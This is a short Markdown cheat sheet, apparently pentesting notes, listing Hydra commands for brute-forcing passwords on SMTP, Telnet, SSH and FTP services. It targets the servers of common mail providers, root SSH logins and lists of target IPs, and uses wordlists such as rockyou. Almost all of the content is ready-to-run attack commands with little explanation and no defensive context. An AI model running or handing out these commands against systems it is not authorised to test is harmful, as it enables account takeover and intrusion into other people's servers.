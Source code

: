 ## SMTP

```sh
hydra smtp.victimsemailserver.com smtp -l useraccount@gmail.com -P '/root/Desktop/rockyou.txt' -s portnumber -S -v 
```
Generally the port used for SMTP is 465 and common SMTP server for common email
services are:
    * smtp.mail.yahoo.com
    * smtp.gmail.com
    * smtp.live.com (but on poort 587)


## Telnet

```sh
hydra -l <username> -P <password_file> telnet://targetname
```

## SSH

```sh
hydra -l root -M /path/to/ip/list.txt -P /path/to/passwordlist.txt ssh -t 4
```
Notice that with some services, we may need to use the recommended
number of tasks. In case of SSH if we use more than 4 tasks we may get
errors.

```sh
hydra 192.168.1.26 ssh2 -s 22 -P pass.txt -L users.txt -e ns -t 10
 # this will attack the system 192.168.1.26 on port 22
 # and will use as password file pass.txt while
 # for users the file users.txt
 # the process will use 10 threads at a time
```


```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

```sh
hydra -L logins.txt -P pws.txt -M targets.txt ssh
# tries the users from logins.txt and the paasswords from pws.txt
# on all the machines listed on targests.txt on the ssh port/service
```


## FTP 

```sh
hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp
```


```sh
hydra -l user -P passlist.txt ftp://192.168.0.1
```
